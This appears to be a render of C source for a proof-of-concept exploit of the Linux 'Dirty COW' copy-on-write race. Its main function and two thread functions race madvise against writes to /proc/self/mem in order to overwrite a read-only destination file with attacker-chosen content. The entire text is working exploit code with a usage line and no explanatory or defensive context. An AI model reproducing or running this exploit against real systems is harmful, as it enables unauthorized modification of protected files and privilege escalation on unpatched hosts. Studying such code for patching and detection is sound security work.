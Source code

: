 ````c
{
    if (argc < 3)
    {
        puts("usage: ./poc destination_file fake_file");
        return 0;
    }

    pthread_t write_thread, madvise_thread;

    int dst_fd, fk_fd;
    dst_fd = open(argv[1], O_RDONLY);
    fk_fd = open(argv[2], O_RDONLY);
    printf("fd of dst: %d\nfd of fk: %d\n", dst_fd, fk_fd);

    fstat(dst_fd, &dst_st); // get destination file length
    fstat(fk_fd, &fk_st); // get fake file length
    map = mmap(NULL, dst_st.st_size, PROT_READ, MAP_PRIVATE, dst_fd, 0);

    fake_content = malloc(fk_st.st_size);
    read(fk_fd, fake_content, fk_st.st_size);

    pthread_create(&madvise_thread, NULL, madviseThread, NULL);
    pthread_create(&write_thread, NULL, writeThread, NULL);

    pthread_join(madvise_thread, NULL);
    pthread_join(write_thread, NULL);

    return 0;
}

void * writeThread(void * argv)
{
    int mm_fd = open("/proc/self/mem", O_RDWR);
    printf("fd of mem: %d\n", mm_fd);
    for (int i = 0; i < 0x100000; i++)
    {
        lseek(mm_fd, (off_t) map, SEEK_SET);
        write(mm_fd, fake_content, fk_st.st_size);
    }

    return NULL;
}

void * madviseThread(void * argv)
{
    for (int i = 0; i < 0x100000; i++){
        madvise(map, 0x100, MADV_DONTNEED);
    }

    return NULL;
}

````



